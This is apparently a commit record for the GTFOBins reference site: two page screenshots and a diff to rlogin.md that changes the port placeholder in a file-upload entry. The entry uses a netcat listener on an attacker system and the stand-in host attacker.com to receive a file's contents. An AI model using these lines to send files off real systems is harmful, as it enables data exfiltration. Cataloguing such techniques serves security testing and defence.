

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rlogin.md, in a window 1280 px wide. Shown: the part 153-429 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update rlogin.md

```diff
--- a/_gtfobins/rlogin.md
+++ b/_gtfobins/rlogin.md
@@ -1,7 +1,7 @@
 ---
 functions:
   file-upload:
-    - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
+    - description: Send contents of a file to a TCP port. Run `nc -nlvp 12345 > "file_to_save"` on the attacker system to capture the contents.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
